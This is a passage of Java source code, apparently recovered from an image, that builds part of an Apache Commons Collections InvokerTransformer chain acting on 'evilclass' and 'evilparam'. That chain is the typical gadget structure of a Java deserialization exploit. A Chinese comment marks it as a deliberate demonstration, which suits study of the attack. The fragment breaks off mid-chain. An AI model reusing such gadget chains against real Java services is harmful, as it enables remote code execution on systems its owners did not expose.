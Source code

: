 ```java
                {
                    evilclass
                }
            ),
            // new InvokerTransformer
            // (
            //     "getDeclaredConstructor",
            //     new Class[]
            //     {
            //         Class[].class
            //     },
            //     new Object[]
            //     {
            //         new Class[]
            //         {
            //             Object[].class
            //         }
            //     }
            // ),
            // new InvokerTransformer
            // (
            //     "newInstance",
            //     new Class[]
            //     {
            //         Object[].class
            //     },
            //     new Object[]
            //     {
            //         new Object[]
            //         {
            //             evilparam
            //         }
            //     }
            // )
            /*
             * 故意换种方式演示
             */
            new InvokerTransformer
            (
                "getMethod",
                new Class[]
                {
                    String.class,
                    Class[].class
                },
                new Object[]
                {
                    "Operator",
                    new Class[]
                    {
                        Object[].class
                    }
                }
            ),
            new InvokerTransformer
            (
                "invoke",
                new Class[]
                {
                    Object.class,
                    Object[].class
                },
                new Object[]
```